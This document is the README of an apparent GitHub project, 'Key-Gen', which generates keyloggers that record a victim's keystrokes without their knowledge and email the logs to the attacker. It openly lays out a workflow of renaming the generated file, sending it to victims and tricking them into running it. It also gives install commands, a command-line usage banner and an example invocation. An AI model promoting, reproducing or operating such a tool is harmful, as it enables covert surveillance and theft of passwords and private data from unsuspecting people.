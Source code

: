 # Keylogger Generator

**Key-Gen** is a python based-project that enable attacker to generate a specific keylogger software with a uniquet ID on it, the keylogger software contain attackers email credential. means that is capable of send report to the attacker email address.

This Our Keylogger Software will silently captured and record all the keystrokes that the victims types on the targetted machine, and leter on send them to the attacker email. 

# How to Used it:
1. An attacker run **Key-Gen** by specifying their email address, password and report interval (in seconds).
2. **Key-Gen** generate a specific keylogger software with a unique ID on it.
3. Attacker rename the generated keylogger software and send it to their Victims.
4. Victims mistakely start the keylogger software. BOOM 🎇 Game Over!.
5. Keylogger software send some information to the attacker's email, each time victims connected to their network.


# Our Keylogger Software:

Visit this site [https://github.com/evilfeonix/Key-Gen/wiki](https://github.com/evilfeonix/Key-Gen/wiki/Home) for more detail on **Our Keylogger Software**

# Keylogger Generator Installation
```bash
apt install bash
```
```bash
apt install python3
```
```bash
git clone https://github.com/evilfeonix/Key-Gen.git
```
```bash
cd Key-Gen
```
```bash
bash installer.sh
```
```bash
python3 keygen.py
```

# Keylogger Generator Usage
```css
===========================================================
|         _  __                 ____                      |
|        | |/ /___ _   _       / ___| ___ _ __            |
|        | ' // _ \ | | |_____| |  _ / _ \ '_ \           |
|        | . \  __/ |_| |_____| |_| |  __/ | | |          |
|        |_|\_\___|\__, |      \____|\___|_| |_|          |
|          v[1.0]  |___/   Coded By EvilFeonix            |
===========================================================
          
USAGE: python3 keygen.py [Options.. [-e] [-p] [-r]]
    -e      Specify Email Address To Send Report   
    -p      Specify Password Of The Email Address  
    -r      Specify Interval For Sending Report  

Example: python3 keygen.py -e email@domain.tld -p pass1234
Example: python3 keygen.py -e email@domain.tld -p pass1234 -r 600

[!]  Ensure that the report Interval is written in seconds  [!]
[!]            eg.( 600 seconds = 10 minutes)               [!]
===========================================================
```

# Keylogger Generator Sopport:
This our Keylogger Generator Sopport both
- Termux
- Kali-Linux

# Support and Encourage Us:
Follow us on [github.com](https://github.com/evilfeonix)...

Fork, and Star our repositories

Follow us on [facebook.com](https://facebook.com/evilfeonix), [instagram.com](https://instagram.com/evilfeonix), and [youtub.com](https://youtub.com/@3V1LF30N1X) for latest hacking updates.



# License

This project is licensed under the MIT License - see the LICENSE file for details.
